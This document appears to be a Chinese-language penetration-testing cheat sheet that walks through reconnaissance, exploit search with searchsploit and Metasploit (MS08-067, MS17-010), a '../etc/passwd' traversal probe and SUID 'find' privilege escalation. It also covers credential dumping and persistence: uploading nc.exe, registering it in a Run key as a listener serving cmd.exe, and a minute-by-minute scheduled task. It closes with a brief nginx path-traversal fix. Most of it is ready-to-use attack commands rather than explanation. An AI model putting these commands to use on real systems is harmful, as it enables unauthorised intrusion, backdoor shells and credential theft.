 https://github.com/Threekiii/Awesome-Redteam
https://github.com/CnHack3r/Penetration_PoC

Web漏洞分析
* 我们要挖掘什么漏洞?
* 应该从哪里挖掘?
* 网站源码分析
* 路径穿越 见 ## nginx 路径穿越
* https://github.com/swisskyrepo/PayloadsAllTheThings
* 已知源码
* 我们可以下载其源码本地分析
* 百度该源码漏洞
* 未知源码
* 黑盒测试该网站漏洞(手工、工具自动扫描)

## 渗透流程
1. 信息收集 > fscan/cscan/kscan(免杀), NMAP > AWVS > Appscan > Burpsuite > x-ray
* 2375端口: docker 未授权
* 21/2121:  ftp 匿名登录/未授权
* 6379:     redis/未授权
* msf > searchsploit thinkphp
```shell
  msf > searchsploit thinkphp
  cd /usr/share/exploitdb/exploits/php/webapps
  cat 46150.txt
```
* cs上线
  * logonpasswords
  * 收集域信息
2. msfconsole
```shell
migrate
search ms10_018 #(xp的)
ms08_067 # (445端口, 2008以外系统, KB958644)
-- ms17_010: 用 AutoBlue-MS17-010见90_tools
search ms17_010 # (永恒之蓝)
```
3. Web:  kali - web程序 -  ZAP 扫描
```
1. vulmap:  python vulmap.py -u http://192.168.50.8:2003/
2. web 目录遍历 `downfile.jsp?filename=fan.pdf` 测试 `../../../../etc/passwd`
```
4. [linux suid find 提权](https://mp.weixin.qq.com/s/8rgvLbOmmjcxVZT7BoW5Og)
```shell
find / -perm -4000 # 如果有find 执行下面
find ./ aaa -exec '/bin/sh' \;
```
5.横向移动
msf: 1. autoroute 2.add socks proxy 3.域控
cs: smb上线其他域

## MSF
nmap 探测漏洞

searchsploit
."searchsploit"是一个用于Exploit-DB的命令行搜索工具,它还允许你随身带一份
Exploit-DB的副本.
* SearchSploit为您提供了在本地保存的存储库中执行详细的离线搜索的能力.这种能力特
别适用于在没有互联网接入的情况下对网络进行安全评估.许多漏洞都包含了二进制文件
的链接,这些文件不包含在标准存储库中,但可以在我们的Exploit-DB二进制文件中找到
* 如果您预计您将在一个没有Internet的网络环境进行渗透测试,请确保您检查了两个存储库
以获得最完整的数据集.注意,这个工具的名称是"SearchSploit",顾名思义,它将搜
索所有的漏洞和shellcode.它不会包含任何文件和谷歌黑客数据库的结果
* 终端输入searchsploit启动(已经默认在Kali/Parrot中安装)

https://www.exploit-db.com/

```shell
searchsploit
searchsploit -m xxxx/xxx.py  # 复制到当前目录
searchsploit -t linux remote # 标题包含Linux Remote
searchsploit apache
```

基本搜索
* 基本搜索会同时匹配标题和路径中的内容
* 如:searchsploit smb windows remote
* 标题搜索
* 标题搜索只匹配标题,不会对路径中的关键词进行匹配
* 如:searchsploit-t smb windows remote
* 删除不想要的结果
* 使用--exclude＝选项删除不想要的结果
* 如:searchsploit smb windows remote--exclude＝＂(POC)Jtxt＂

## AWVS
Acunetix Web Vulnerability Scanner(简称AWVS)是一款知名
的网络漏洞扫描工具,它通过网络爬虫测试你的网站安全,检测流
行安全漏洞.
Acunetix推出了一个具有漏洞的测试网站
http://test.vulnweb.com/.

AWVS常见功能
* 网站爬行
* 漏洞扫描
* 目标发现
* 子域名扫描
* http 编辑
* http嗅探
* http模糊测试
* 认证测试
* 网络服务扫描器

linux 版本安装后。访问时用https://xxx:3443/

[AWVS13批量添加目标脚本](https://blog.csdn.net/weixin_45382656/article/details/118565077)

## xray
https://github.com/chaitin/xray

awvs+xray https://www.cnblogs.com/zzjdbk/p/13195955.html

```
xray webscan --basic-crawler http://example.com --html-output vuln.html
xray webscan --listen 0.0.0.0:7001 --html-output awvs.html
xray webscan --listen 127.0.0.1:7777 --html-output proxy.html
```
### crawergo联动
https://www.freebuf.com/sectool/252790.html

```sh
crawlergo -c YourChromiumPath -t 标签页数 Url
./xray webscan --listen 127.0.0.1:7777 --html-output vulnerability.html
./crawlergo -c chrome-mac/Chromium.app/Contents/MacOS/Chromium -t 10--request-proxy http://127.0.0.1:7777 http://testphp.vulnweb.com/
```

> 如果想半⾃动化⼀点，比如测试多个url可以参考：https://github.com/timwhitez/crawlergo_x_XRAY

与 w13scan 联动：
```sh
python3 w13scan.py -s 127.0.0.1 --html   # 会监听7778
/crawlergo -c chrome-mac/Chromium.app/Contents/MacOS/Chromium -t 10 --request-proxy http://127.0.0.1:7778 http://testphp.vulnweb.com/
```

## 存在目录时，返回403响应码

# 进行权限维持
开机自启动
每次启动登录时都会按顺序自动执行.
```bash
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
```
- 上传nc

upload nc.exe C:\\windows\\system32

- 查看自启动注册表项I

reg enumkey-k HKLM\\software\\microsoft\\windows\\currentversion\\un

- 添加注册表,开机启动nc并开启监听

reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc-d 'C:\\windows\\system32\\nc64.exe-Ldp 5555-e cmd.exe'

- 查看注册表指定项值

reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc

- 计划任务

`schtasks /create /sc MINUTE /mo 1 /tr C:\Users\Administrator\Desktop\mx\5555.exe /tn test`


# 系统审记
## nginx 路径穿越
```
location /xxx {
  alias /abc/;
}
```
修复

```
location /xxx/ {
  alias /abc/;
}
```